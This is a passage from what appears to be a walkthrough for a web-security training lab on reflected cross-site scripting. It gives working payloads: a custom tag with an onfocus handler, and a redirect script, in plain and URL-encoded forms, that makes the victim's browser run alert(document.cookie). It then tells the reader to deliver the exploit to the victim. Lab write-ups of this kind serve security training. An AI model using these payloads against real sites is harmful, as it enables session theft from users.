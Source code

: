 And this is working

**Step2**

Now we try a simple payload

`<xss onfocus=alert(1) autofocus tabindex=1>`

And the alert message is triggring

<img src="images/image79.png" alt="third" width="500">

**Step3**

So we use this script to solve the lab
```
<script>

location = '[https://0a3500e6039d93388058582900fe0002.web-security-academy.net/?search=<xss](https://0a3500e6039d93388058582900fe0002.web-security-academy.net/?search=%3cxss) id=x onfocus=alert(document.cookie) tabindex=1>#x';

</script>
```

URL Encoded
```
<script>

location = '[https://0a3500e6039d93388058582900fe0002.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x](https://0a3500e6039d93388058582900fe0002.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x)';

</script>
```

**Step4**

Store exploit in exploit server and deliver it to victim
